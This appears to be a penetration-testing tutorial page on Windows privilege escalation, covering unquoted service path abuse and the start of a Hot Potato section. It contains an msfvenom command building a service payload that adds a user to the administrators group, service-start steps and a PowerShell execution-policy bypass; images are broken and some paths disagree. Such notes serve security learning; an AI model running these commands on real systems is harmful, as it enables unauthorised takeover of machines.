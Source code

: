 `C:\Program Files\Unquoted Path Service\Common Files\service.exe`

Windows will search in this order:

1. C:\Program.exe&#x20;
2. C:\Program Files\Unquoted.exe
3. C:\Program Files\Unquoted Path.exe&#x20;
4. C:\Program Files\Unquoted Path Service\Common.exe
5. &#x20;C:\Program Files\Unquoted Path Service\Common Files\service.exe

To view the information about services we can use `sc` utility and we use the `qc` command to display the information, in particular, the `BINARY_PATH_NAME`field which we are interested:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

We can see that in the `BINARY_PATH_NAME` we have the path `C:\Program Files\Unquoted Path Services\Common Files\unquotedpathservice.exe`. We want to place some malicious file in that path so that Windows will execute it.

### Exploitation

So we choose to place a file named common.exe in the path `C:\Program Files\Unquoted Path Service:`\
We generate the malicious file:

```bash
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Then we upload the file and copy it in `C:\Program Files\Unquoted Path Service`:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Then we start the unquotedsvc service (by using the command `sc start unquotedsvc`) and we check if our user belongs to administrator localgroup:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

## Potato Escalation - Hot Potato

“Hot Potato is a technique that takes advantage of known issues in Windows to gain local privilege escalation in default configurations, namely NTLM relay (specifically HTTP->SMB relay) and NBNS spoofing”.

{% file src="broken-reference" %}

### Exploit

To exploit this vulnerability, we can use `Tater` module that is a PowerShell implementation of the Hot Potato Windows Privilege Escalation. So we, first, start Powershell with bypass option to bypass firewall:

```powershell
powershell.exe -nop -ep bypass
```
